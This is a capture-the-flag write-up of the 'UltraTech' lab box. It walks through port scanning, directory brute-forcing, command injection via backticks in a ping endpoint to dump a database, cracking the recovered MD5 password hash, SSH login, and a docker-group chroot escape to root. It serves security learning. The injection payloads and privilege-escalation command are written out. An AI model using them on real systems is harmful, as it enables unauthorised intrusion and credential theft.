







# UltraTech writeup
This is an intermediate challange that requires relatively easy methods for privilegie escalation.

Enumeration:
Using `sudo nmap -Pn -p- -v -A 10.10.22.222` to find open ports on the server yields the following results:


We can easily find all of the answers for part one of this challange by inspecting of the nmap scan.
1. Which software is using the port 8081?
    * Node.js

2. Which other non-standard port is used?
    * 31331

3. Which software using this port?
    * Apache

4. Which GNU/Linux distribution seems to be used?
    * Ubuntu (Both SSH and Apache are running their Ubuntu versions)

5. The software using the port 8080 is a REST api, how many of its routes are used by the web application?
    * 2 (_http-cors and _http-title)


We try finding hidden directories on the Node.js by running `gobuster dir -u http://10.10.22.222:8081/ -w /usr/share/dirb/wordlists/big.txt  -t 30` since there seems to be something hiding here. 


Heading to the /auth site only tells us that `You must specify a login and a password`.
There doesn't seem like there's very much to do on this website...yet.

Doing a similar gobuster scan on the apache server at port 30331, however, reveals a lot of directories:
`gobuster dir -u http://10.10.22.222:31331 -w /usr/share/dirb/wordlists/big.txt  -t 30`


Heading to the /js directory gives us a couple of files, where the `api.js` stands out. 
In the api.js file we see this



This script seems to, amongst other things, ping itself on port 8081 (which is where the Node.js site resides) to check if the API is running. The new endpoint, `http://10.10.55.254:8081/ping?ip={some_ip}`, is revealed. 

By going to `http://10.10.55.254:8081/ping?ip=10.10.55.254` we get this reply `PING 10.10.55.254 (10.10.55.254) 56(84) bytes of data. 64 bytes from 10.10.55.254: icmp_seq=1 ttl=64 time=0.023 ms --- 10.10.55.254 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.023/0.023/0.023/0.000 ms` which looks a lot like Linux' standard ping reply. This implies that the system might be vulnerable for a [command injection attack](https://owasp.org/www-community/attacks/Command_Injection). An inline execution is performed when a command is surrounded by backticks (`).

Thus by sending the argument ``` `ls` ``` to the server, we first execute the ls command, and then send the result to the ping command. By going to ``` http://10.10.55.254:8081/ping?ip=`ls` ``` we receive this reply from the server. `ping: utech.db.sqlite: Name or service not known `

1. There is a database lying around, what is its filename?
    * utech.db.sqlite

This endpoint is thus vulnerable to clommand injection attacks. 

In order to read this file you simply send this request ``` http://10.10.55.254:8081/ping?ip=`cat utech.db.sqlite` ```. 
`ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded`

After some trying and failing, I find out that the username is `r00t` and MD5 hash of the password `f357a0c52799563c7c7b76c1e7543a32`.

2. What is the first user's password hash?
    * 357a0c52799563c7c7b76c1e7543a32

Using [Crackstation](crackstation.net) i find that the password for `r00t` is `n100906`.

3. What is the password associated with this hash?
    * n100906



I try to connect to the server with SSH by using these credentials, and to my suprise the username and password combination actually works! User privilegies gained! :^)

Basic enumeration as r00t does not give us anything. 
I intall `linpeas.sh` in r00t's home directory and run it. 



r00t seems to be in the Docker group, so we better check that out more closely. There might be some Docker related commands we can use to escalate our privileges. Heading over to [GTFObin's site for docker](https://gtfobins.github.io/gtfobins/docker/) we see that the `docker run -v /:/mnt --rm -it bash chroot /mnt sh` can be used to escape restricted shells and gain root access.



Rooted! :^) 
